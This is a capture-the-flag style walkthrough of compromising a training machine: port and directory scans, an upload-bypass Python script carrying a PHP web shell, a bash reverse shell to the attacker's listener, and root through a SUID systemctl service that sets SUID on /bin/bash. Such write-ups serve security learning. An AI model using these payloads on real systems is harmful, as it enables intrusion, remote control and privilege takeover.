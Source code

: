 # 1. Reconnaissance and Initial Enumeration

## Step 1.1: Nmap Scan
Use nmap to scan the target machine for open ports and services:

`nmap -sC -sV -oN nmap_scan <target_ip>`
	-sC: Runs default scripts.
	-sV: Version detection.
	-oN: Outputs the results to a file (nmap_scan)

## Step 1.2: Analyze the Results
	From the scan, look for:

	HTTP services: A web server may be running on port 80 or another port.
	Other important services like FTP, SSH, or SMB.

# 2. Web Application Enumeration
	Assume we found an HTTP service running on port 3333. Let’s explore the web application.

## Step 2.1: Directory Enumeration
	Use a tool like Gobuster to discover hidden directories or files:
	`gobuster dir -u http://<target_ip>:3333 -w /path/to/wordlist`
	Look for pages like `/internal/` that might contain important resources, such as an upload page

## Step 2.2: Interact with the Web Application	
	Visit `http://<target_ip>:3333/internal/` and inspect the upload functionality:
	Check if there are restrictions on what types of files can be uploaded.

# 3. Bypassing File Upload Restrictions
	I found the upload page (/internal/). The next step is to figure out which file types are allowed.

## Step 3.1: Test Various File Extensions
	Using Python, automate the testing of different file extensions to see which ones the server accepts and processes.
	Python script to automate the upload:

```
import requests

# Target URL (upload page)
url = "http://<target_ip>:3333/internal/"

# List of file extensions to test
extensions = ['php', 'php3', 'php4', 'php5', 'phtml']

# Define the file to upload
test_file_content = "File uploaded"
filename = "test"

# Loop through each extension
for ext in extensions:
    if ext == "phtml":
        file_content = '<?php system($_GET["cmd"]); ?>'  # Simple PHP shell
    else:
        file_content = test_file_content

    print(f"[*] Trying to upload {filename}.{ext}")

    # Create the file name with the current extension
    file_to_upload = (f"{filename}.{ext}", file_content, 'application/octet-stream')
    files = {'file': file_to_upload}

    # Send POST request to upload the file
    response = requests.post(url, files=files)

    # Check if upload was successful
    if response.status_code == 200:
        print(f"[+] {filename}.{ext} uploaded successfully!")
    else:
        print(f"[-] Failed to upload {filename}.{ext}") 
```        
	From testing, .phtml was accepted and executed, making it the valid extension.

# 4. Exploiting the Upload with a Reverse Shell
	Now that we know the .phtml extension works, use it to upload a reverse shell.

## Step 4.1: Modify the Python Script to Upload a Reverse Shell
	Modify the script to upload a reverse shell instead of a basic PHP file.

```
reverse_shell = """<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1'");
?>"""

# Only upload the reverse shell if phtml is accepted
if ext == "phtml":
    file_content = reverse_shell
    print(f"[*] Uploading reverse shell as {filename}.{ext}")
```

## Step 4.2: Set up a Netcat Listener  
	On your local machine, start a listener to catch the reverse shell:
	`nc -lvnp 4444`  
the command nc -lvnp, each option stands for the following:
```
-l: Listen mode. This tells Netcat to listen for incoming connections instead of initiating a connection.
-v: Verbose. This option makes Netcat provide more detailed output about what it’s doing.
-n: No DNS. This prevents Netcat from performing DNS lookups on IP addresses, which can speed up the connection process.
-p: Port. This specifies the port number on which Netcat should listen for incoming connections.
```
## Step 4.3: Trigger the Reverse Shell
	After the reverse shell is uploaded to `http://<target_ip>:3333/internal/uploads/test-revshell.phtml`, visit the URL to trigger it.
	You should receive a shell back in your Netcat listener.

# 5. Post-Exploitation and Enumeration	
	Once we have a reverse shell, start enumerating the system for further exploitation.

## Step 5.1: Stabilize the Shell
	To make the reverse shell interactive, spawn a TTY:
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`
	Set the terminal environment:
	`export TERM=xterm`

## Step 5.2: Explore the File System
Enumerate the target machine for interesting files. You can start by checking the home directories:
`ls /home/`
`ls -al`
`cd /home/bill`
`getfacl user.txt`
`file user.txt`
`cat user.txt`

## 6. Privilege Escalation
	After gaining access, the next goal is to escalate privileges to root.

# Step 6.1: Check SUID Binaries	
	Use `find` to look for SUID binaries, which run with elevated privileges:
	`find / -perm -4000 -type f 2>/dev/null`
	Some interesting SUID binaries include:

	`/bin/systemctl`
	`/usr/bin/sudo`
	`/usr/bin/pkexec`

## Step 6.2: Exploit /bin/systemctl for Privilege Escalation
	This step I typed each line seperate
	You can exploit `/bin/systemctl` by creating a malicious service that sets the SUID bit on `/bin/bash`.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
	After running this, execute:
	`/bin/bash -p`
	This gives you a root shell.

# 7. Accessing Flags
	Once you have root access, you can access protected files, such as:
	Note: Bill's txt file could be read without root priv.
	User flag (/home/bill/user.txt)
	Root flag (/root/root.txt)	

## Conclusion
I started with reconnaissance to identify the open services.
I found an upload vulnerability in the web app, exploited it to upload a reverse shell, and gained access as www-data.
From there, I performed privilege escalation using SUID binaries to become root.
